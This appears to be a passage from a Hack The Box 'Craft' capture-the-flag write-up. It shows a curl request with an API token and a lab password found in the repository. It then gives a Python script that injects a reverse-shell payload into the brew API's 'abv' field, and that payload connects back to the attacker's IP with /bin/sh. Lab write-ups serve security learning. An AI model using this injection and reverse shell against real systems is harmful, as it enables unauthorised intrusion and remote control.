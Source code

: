 
Unfortunately the example has an invalid token, need to figure out how to get a valid one.
```
curl -H 'X-Craft-API-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTU0OTM4NTI0Mn0.-wW1aJkLQDOE-GP5pQd3z_BJTe2Uo0jJ_mQ238P5Dqw' -H "Content-Type: application/json" -k -X POST https://api.craft.htb/api/brew/ --data "{\"abv\":\"2\", \"name\":\"macska\", \"brewer\":\"soproni\", \"style\":\"APA\"}"
```

Seems like Dinesh checked in his password :)
```
response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
```

## Foothold

Using these informations I could craft a script that injects a reverse shell to the webapp
```python
import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# find my ip
from subprocess import check_output
ifconfig = str(check_output(['ifconfig']))
ifconfig = ifconfig[ifconfig.find("10.10"):]
my_ip = ifconfig[:ifconfig.find(" ")]

reverse_shell = "exec(\"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
    s.connect(('{}',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);\
    p=subprocess.call(['/bin/sh','-i'])\")".format(my_ip)

# create a "special" brew ;)
print("Create real ABV brew")
special_dict = {}
special_dict['abv'] = reverse_shell
special_dict['name'] = 'macska'
special_dict['brewer'] = 'cica'
special_dict['style'] = 'IPA'

json_data = json.dumps(special_dict)
print(json_data)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```
